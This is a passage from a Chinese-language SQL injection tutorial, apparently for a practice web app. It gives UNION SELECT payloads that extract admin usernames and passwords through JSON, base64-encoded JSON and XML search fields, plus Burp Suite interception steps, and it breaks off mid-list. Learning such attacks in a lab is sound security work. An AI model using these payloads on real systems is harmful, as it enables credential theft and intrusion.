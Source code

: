 这个payload利用UNION SELECT语句将admin表中的密码和用户名与news表的查询结果合并。

### 2. 针对jsonbase.php的SQL注入

由于jsonbase.php使用了base64编码，需要先将payload编码：

1. SQL注入payload: 
   ```
   ' UNION SELECT 1,password,username,created_at FROM admin WHERE id=1-- -
   ```

2. Base64编码后: 
   ```
   JyBVTklPTiBTRUxFQ1QgMSxwYXNzd29yZCx1c2VybmFtZSxjcmVhdGVkX2F0IEZST00gYWRtaW4gV0hFUkUgaWQ9MS0tIC0=
   ```

3. 在Burp Suite中构造的JSON请求:
   ```json
   {
     "id": 0,
     "keyword": "JyBVTklPTiBTRUxFQ1QgMSxwYXNzd29yZCx1c2VybmFtZSxjcmVhdGVkX2F0IEZST00gYWRtaW4gV0hFUkUgaWQ9MS0tIC0="
   }
   ```

### 3. 针对xml.php的SQL注入

1. 访问`xml.html`页面
2. 使用Burp Suite拦截搜索请求
3. 修改XML数据如下：

**原始XML**:
```xml
<data>
  <id>0</id>
  <keyword>test</keyword>
</data>
```

**注入Payload**:
```xml
<data>
  <id>0</id>
  <keyword>' UNION SELECT 1,password,username,created_at FROM admin WHERE id=1-- -</keyword>
</data>
```

## 详细的攻击步骤（使用json.php为例）

1. **设置Burp Suite代理**:
   - 配置浏览器使用Burp Suite代理（通常为127.0.0.1:8080）
   - 确保Burp Suite的Intercept功能已开启

2. **访问目标页面**:
   - 打开`http://[服务器IP]/json.html`
